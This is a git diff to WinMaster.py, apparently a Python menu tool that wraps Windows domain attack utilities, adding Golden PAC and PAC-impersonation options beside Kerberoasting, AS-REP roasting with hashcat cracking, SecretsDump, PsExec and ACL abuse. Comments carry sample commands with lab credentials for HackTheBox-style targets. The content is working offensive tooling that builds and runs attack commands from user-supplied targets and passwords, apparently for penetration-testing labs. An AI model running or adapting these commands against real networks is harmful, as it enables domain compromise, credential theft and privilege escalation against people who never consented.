

Updates

diff --git a/WinMaster.py b/WinMaster.py
@@ -40,8 +40,8 @@ if len(sys.argv) < 3:
     print "\nUse the command python WinMaster.py neo4j password\n"
     exit(True)
 
-BH1 = sys.argv[1]	# BLOODHOUND USERNAME
-BH2 = sys.argv[2]	# BLOODHOUND PASSWORD
+BH1 = sys.argv[1]	# NEO4J USERNAME
+BH2 = sys.argv[2]	# NEO4J PASSWORD
 
 # -------------------------------------------------------------------------------------
 # AUTHOR  : Terence Broadbent                                                    
@@ -86,7 +86,7 @@ def gettime(value):
    return variable
 
 def command(command):
-#   print colored("Using Command: " + command + "\n", 'white')	# COMMENT OUT TO STOP DEBUGGING COMMANDS
+   print colored("Using Command: " + command + "\n", 'white')	# COMMENT OUT TO STOP DEBUGGING COMMANDS
    os.system(command)
    raw_input("\nPress ENTER to continue...")
    return
@@ -259,14 +259,14 @@ def display():
 
 # ----------------------------------------------------------------------------------------------------------------------------------------------------
 
-   print u'\u2551' + "(0) Save/Exit          (10) Re/Set WIN COMMAND (20) GetArch  (30) Enum4Linux     (40) Create TGT      (50) Domain Dump  (60) FTP    " + u'\u2551'
+   print u'\u2551' + "(0) Save/Exit          (10) Re/Set WIN COMMAND (20) GetArch  (30) Enum4Linux     (40) TGT Creation    (50) Domain Dump  (60) FTP    " + u'\u2551'
    print u'\u2551' + "(1) Re/Set DNS SERVER  (11) Re/Set CLOCK TIME  (21) NetView  (31) WinDapSearch   (41) TGT IMPERSONATE (51) BLOODHOUND   (61) SSH    " + u'\u2551'
-   print u'\u2551' + "(2) Re/Set REMOTE IP   (12) Re/Set DIRECTORY   (22) Services (32) LookupSid      (42) GetUsersPns     (52) ACLPWN       (62) TelNet " + u'\u2551'
-   print u'\u2551' + "(3) Re/Set USERNAME    (13) Check Connection   (23) AtExec   (33) SamDump Users  (43) GetAdusers      (53) SecretsDump  (63) NetCat " + u'\u2551'
-   print u'\u2551' + "(4) Re/Set PASSWORD    (14) Check DNS Records  (24) DcomExec (34) RpcDump        (44) KerbChecKUsers  (54) CrackMapExec (64) WinRem " + u'\u2551'
-   print u'\u2551' + "(5) Re/Set FOREST NAME (15) Check DNS SERVER   (25) PsExec   (35) REGistery      (45) GetNPUsers      (55) WmiExec HASH (65)        " + u'\u2551'
-   print u'\u2551' + "(6) Re/Set DOMAIN NAME (16) Nmap O/S + Skew    (26) SmbExec  (36) SmbClient      (46)                 (56)              (66)        " + u'\u2551'
-   print u'\u2551' + "(7) Re/Set WORK GROUP  (17) Nmap Subdomains    (27) WmiExec  (37) SmbMap SHARE   (47)                 (57)              (67)        " + u'\u2551'
+   print u'\u2551' + "(2) Re/Set REMOTE IP   (12) Re/Set DIRECTORY   (22) Services (32) LookupSid      (42) PAC IMPERSONATE (52) ACLPWN       (62) TelNet " + u'\u2551'
+   print u'\u2551' + "(3) Re/Set USERNAME    (13) Check Connection   (23) AtExec   (33) SamDump Users  (43) GOLDEN PAC      (53) SecretsDump  (63) NetCat " + u'\u2551'
+   print u'\u2551' + "(4) Re/Set PASSWORD    (14) Check DNS Records  (24) DcomExec (34) RpcDump        (44) GetUsersPns     (54) CrackMapExec (64) WinRem " + u'\u2551'
+   print u'\u2551' + "(5) Re/Set FOREST NAME (15) Check DNS SERVER   (25) PsExec   (35) REGistery      (45) GetADUsers      (55) WmiExec HASH (65)        " + u'\u2551'
+   print u'\u2551' + "(6) Re/Set DOMAIN NAME (16) Nmap O/S + Skew    (26) SmbExec  (36) SmbClient      (46) KerbCheckUsers  (56)              (66)        " + u'\u2551'
+   print u'\u2551' + "(7) Re/Set WORK GROUP  (17) Nmap Subdomains    (27) WmiExec  (37) SmbMap SHARE   (47) GetNPUsers      (57)              (67)        " + u'\u2551'
    print u'\u2551' + "(8) Re/Set SHARE NAME  (18) Nmap Intense TCP   (28) IfMap    (38) SmbMount SHARE (48)                 (58)              (68)        " + u'\u2551'
    print u'\u2551' + "(9) Re/Set IMPERSONATE (19) Nmap Slow and Full (29) OpDump   (39) Rpc Client     (49)                 (59)              (69)        " + u'\u2551'
    print u'\u255A' + (u'\u2550')*132 + u'\u255D'
@@ -1137,11 +1137,33 @@ while True:
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - GetUserSPNs.py -request -target-domain megabank.local megabank.local/ryan:Serv3r4Admin4cc123!
+# Details : Menu option selected - getPac.py -targetUser Administrator htb.local/svc-alfresco:s3rvice
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
    if selection == '42':
+      command(PRO + "getPac.py -targetUser " + POR.rstrip(" ") + " " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" "))
+
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : 1.0
+# Details : Menu option selected - goldenPac.py -dc-ip 10.10.10.161 -target-ip 10.10.10.161 htb.local/svc-alfresco:s3rvice@htb.local
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '43':
+      command(PRO + "goldenPac.py -dc-ip " + TIP.rstrip(" ") + " -target-ip " + TIP.rstrip(" ") + " " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" ") + "@" + HST.rstrip(" "))
+
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : 1.0
+# Details : Menu option selected - GetUserSPNs.py -request -target-domain megabank.local megabank.local/ryan:Serv3r4Admin4cc123!
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '44':
       command(PRO + "GetUserSPNs.py -request -target-domain " + HST.rstrip(" ") +  " " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" ")) 
 
 # ------------------------------------------------------------------------------------- 
@@ -1152,7 +1174,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '43':
+   if selection == '45':
       command(PRO + "GetADUsers.py " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" "))
 
 # ------------------------------------------------------------------------------------- 
@@ -1163,7 +1185,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '44':
+   if selection == '46':
       print "\nPlease wait..."
       os.system("nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=" + HST.rstrip(" ") + ",userdb=users.txt " + TIP.rstrip(" ") + " >> KUSERS.tmp")
       os.system("sed -i '/@/!d' KUSERS.tmp")
@@ -1202,7 +1224,7 @@ while True:
 # Modified: N/A                    megabank/-no-pass -usersfile users.txt
 # -------------------------------------------------------------------------------------
 
-   if selection =='45':
+   if selection =='47':
       if linecache.getline('users.txt', 1) != "":
          command(PRO + "GetNPUsers.py -outputfile hashroast.txt -format hashcat " + HST.rstrip(" ") + "/ -usersfile users.txt")
          command("hashcat -m 18200 --force -a 0 hashroast.txt /usr/share/wordlists/rockyou.txt -o cracked.txt")
@@ -1218,7 +1240,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection =='46':
+   if selection =='48':
       exit(1)
 
 # ------------------------------------------------------------------------------------- 
@@ -1229,36 +1251,14 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection =='47':
+   if selection =='49':
       exit(1)
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - 
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection == '48':
-      exit(1)
-
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : 1.0
-# Details : Menu option selected - 
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection == '49':
-      exit(1)
-
-# -------------------------------------------------------------------------------------
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : 1.0
-# Details : Menu option selected - ldapdomaindump -u domain\user - PAS IP -o \DIR
+# Details : Menu option selected - ldapdomaindump -u DOMAIN\USER:PASSWORD IP -o DIRECTORY
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
